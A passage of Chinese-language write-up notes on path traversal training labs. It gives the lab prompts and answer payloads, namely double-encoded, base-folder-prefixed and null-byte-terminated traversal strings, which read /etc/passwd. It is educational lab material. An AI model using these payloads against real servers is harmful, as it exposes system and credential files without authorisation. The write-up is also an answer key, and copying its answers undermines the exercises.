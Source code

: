 ### 答案

双 url 编码 / 

```
..%252f..%252f..%252fetc/passwd
```

## Lab5

### 前置

要求用户提供的文件名必须以预期的基文件夹开头

如，`/var/www/images`

需要包括基本文件夹，加上遍历序列：

```
filename=/var/www/images/../../../etc/passwd
```

### 题目

```
Lab: File path traversal, validation of start of path
PRACTITIONER

This lab contains a file path traversal vulnerability in the display of product images.

The application transmits the full file path via a request parameter, and validates that the supplied path starts with the expected folder.

To solve the lab, retrieve the contents of the /etc/passwd file.
```

### 答案

```
/var/www/images/../../../etc/passwd
```

## Lab6

### 前置

文件扩展名固定

应用程序要求用户提供的文件名必须以预期的文件扩展名（如.png）结尾，则可以使用空字节在所需扩展名之前有效地终止文件路径，如

`filename=../../../etc/passwd%00.png`（实战中可能得考虑更多办法，如在hex中改为%0a换行截断等方法）

### 题目

```
Lab: File path traversal, validation of file extension with null byte bypass
PRACTITIONER

This lab contains a file path traversal vulnerability in the display of product images.

The application validates that the supplied filename ends with the expected file extension.

To solve the lab, retrieve the contents of the /etc/passwd file.
```

